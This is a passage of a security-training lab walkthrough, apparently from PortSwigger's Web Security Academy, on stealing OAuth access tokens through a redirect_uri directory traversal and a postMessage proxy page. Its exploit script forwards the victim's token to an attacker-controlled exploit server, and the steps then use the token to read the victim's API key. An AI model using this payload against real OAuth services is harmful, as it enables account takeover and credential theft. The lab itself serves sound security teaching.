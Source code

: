    ```html
    <script>
    window.location = '/?'+document.location.hash.substr(1)
    </script>
    ```

13. To test that everything is working correctly, store this exploit and visit your malicious URL again in your browser. Then, go to the exploit server access log. There should be a request for ```GET /?access_token=[...]```.
14. You now need to create an exploit that first forces the victim to visit your malicious URL and then executes the script you just tested to steal their access token. For example:

    ```html
    <script>
        if (!document.location.hash) {
            window.location = 'https://YOUR-LAB-AUTH-SERVER.web-security-academy.net/auth?client_id=YOUR-LAB-CLIENT-ID&redirect_uri=https://YOUR-LAB-ID.web-security-academy.net/oauth-callback/../post/next?path=https://YOUR-EXPLOIT-SERVER-ID.web-security-academy.net/exploit/&response_type=token&nonce=399721827&scope=openid%20profile%20email'
        } else {
            window.location = '/?'+document.location.hash.substr(1)
        }
    </script>
    ```

15. To test that the exploit works, store it and then click "View exploit". The page should appear to refresh, but if you check the access log, you should see a new request for ```GET /?access_token=[...]```.
16. Deliver the exploit to the victim, then copy their access token from the log.
17. In Repeater, go to the *GET /me* request and replace the token in the *Authorization: Bearer* header with the one you just copied. Send the request. Observe that you have successfully made an API call to fetch the victim's data, including their API key.
18. Use the "Submit solution" button at the top of the lab page to submit the stolen key and solve the lab.

### Stealing OAuth access tokens via a proxy page

This lab uses an OAuth service to allow users to log in with their social media account. Flawed validation by the OAuth service makes it possible for an attacker to leak access tokens to arbitrary pages on the client application.

**Solution**
1. Study the OAuth flow while proxying traffic through Burp. Using the same method as in the previous lab, identify that the *redirect_uri* is vulnerable to directory traversal. This enables you to redirect access tokens to arbitrary pages on the blog website.
2. Using Burp, audit the other pages on the blog website. Observe that the comment form is included as an iframe on each blog post. Look closer at the */post/comment/comment-form* page in Burp and notice that it uses the postMessage() method to send the *window.location.href* property to its parent window. Crucially, it allows messages to be posted to any origin (*).
3. From the proxy history, right-click on the ```GET /auth?client_id=[...]``` request and select "Copy URL". Go to the exploit server and create an iframe in which the src attribute is the URL you just copied. Use directory traversal to change the redirect_uri so that it points to the comment form. The result should look something like this:
